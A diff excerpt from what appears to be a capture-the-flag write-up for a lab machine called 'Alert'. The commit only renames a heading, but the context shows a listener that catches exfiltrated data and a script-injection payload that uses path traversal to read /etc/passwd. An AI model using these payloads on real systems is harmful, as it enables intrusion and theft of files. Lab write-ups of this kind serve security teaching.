

Before and after one commit to l0n3m4n/Writeups, a Markdown page: easy/alert/alert.md, the part around the change. Drawn GitHub-style.

````diff
--- a/easy/alert/alert.md
+++ b/easy/alert/alert.md
@@ -171,7 +171,7 @@ $ python3 -m http.server 8888
 Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
 10.10.11.44 - - [06/Jan/2025 00:02:00] "GET /grabber.php?c=%27+document.domain&lt;/script&gt; HTTP/1.1" 200 -
 ```
-### Vulnerability Identification
+### Vulnerability Identification (XSS, LFI)
 ```js
 <script>
 fetch("http://alert.htb/messages.php?file=../../../../etc/passwd")
````
